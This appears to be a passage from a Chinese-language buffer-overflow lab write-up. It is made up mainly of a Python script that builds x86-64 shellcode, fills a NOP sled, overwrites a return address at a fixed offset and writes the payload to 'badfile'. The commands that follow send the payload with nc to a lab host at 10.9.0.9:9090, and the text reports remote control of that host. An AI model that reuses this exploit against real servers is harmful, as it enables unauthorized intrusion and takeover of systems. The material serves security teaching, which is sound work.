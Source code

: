 ```python
#!/usr/bin/python3
import sys

shellcode= (
    "\x53"											# push	  %rbx
    "\x48\xc7\xc3\x11\xc8\x34\x40"					# movq	  $0x4034c811, %rbx
    "\x49\xbb\x11\x11\x10\x94\xe2\xf7\xff\x7f"		# movabs  $0x7ffff7e294101111, %r11
    "\x48\xc1\xeb\x08"								# shr	  $0x08, %rbx
    "\x49\xc1\xeb\x10"								# shr	  $0x10, %r11
    "\x4c\x89\x1b"									# mov  	  %r11, (%rbx)
    "\x5b"											# pop	  %rbx
    
    "\x49\xc7\xc3\x11\x15\x11\x11"					# mov	  $0x11111511, %r11
    "\x49\x81\xeb\x11\x11\x11\x11"					# sub	  $0x11111111, %r11
    "\x49\x01\xe3"									# add	  %rsp, %r11
    "\x4c\x89\xdd"									# mov	  %r11, %rbp
    
    "\x49\xc7\xc3\x11\x28\x13\x40"					# mov	  $0x40132811, %r11
    "\x49\xc1\xeb\x08"								# shr	  $0x08, %r11
    "\x41\xff\xe3"									# jmpq	  *%r11
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               										# Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x00007fffffffe430     			      				# Change this number 
offset = 0x00007fffffffe4a0 - 0x00007fffffffe430 + 0x8        	# Change this number 

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

执行命令：

```
./exploit.py
cat badfile | nc 10.9.0.9 9090 
```

可以看到，成功取得了远程主机的控制权限：

![屏幕截图(273)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(273).png)





